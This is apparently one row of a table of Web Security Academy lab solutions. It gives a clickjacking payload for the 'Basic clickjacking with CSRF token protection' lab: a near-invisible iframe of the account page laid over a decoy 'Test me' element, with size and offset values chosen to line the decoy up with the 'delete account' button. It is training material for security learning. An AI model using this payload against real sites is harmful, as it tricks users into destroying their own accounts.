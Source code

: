 |54    |Basic clickjacking with CSRF token protection                                                                            |<style>     iframe {         position:relative;         width:$width_value;         height: $height_value;         opacity: $opacity;         z-index: 2;     }     div {         position:absolute;         top:$top_value;         left:$side_value;         z-index: 1;     } </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |Substitute the values with appropriate sizes.  height: 700px width: 500px top: 300px side: 60px opacity: 0.1 or 0.0001 for attack.  adjust the size to match up with the ‘delete account’ button                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |Apprentice, Clickjacking                    |